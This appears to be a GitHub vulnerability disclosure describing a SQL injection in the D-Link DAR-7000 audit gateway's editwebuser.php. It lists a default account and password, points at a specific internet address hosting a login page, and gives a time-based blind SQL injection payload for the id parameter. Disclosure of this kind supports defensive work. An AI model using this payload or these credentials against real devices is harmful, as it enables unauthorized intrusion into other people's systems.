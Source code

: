 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

 Vulnerability Path  ：/useratte/editwebuser.php![image](https://github.com/flyyue2001/cve/assets/88701694/09f7da57-6915-4334-bdc6-71f3016df44f)


See the login page.

https://60.22.74.195:8443/

<img width="730" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/96abc24b-20b8-41be-94ab-93f545830440">



There is a default account password present： test/admin@123



<img width="725" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/9563a5dc-605b-4b80-af22-54c28f4cdc10">



​                               

 Construct the following POC to determine the presence of SQL injection for the id parameter  

POC：

GET /useratte/editwebuser.php?id=(select*from(select(sleep(3)))a) HTTP/1.1
![image](https://github.com/flyyue2001/cve/assets/88701694/a280a5d4-1606-4dcb-b040-cd5d914d68e8)


<img width="723" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/264c217c-38c8-4b8b-a304-0fe4f512e02a">


 By analogy, obtain the database name nsg    

<img width="726" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/a0b78d24-c3e9-4985-a634-feb2ed714c7d">


 
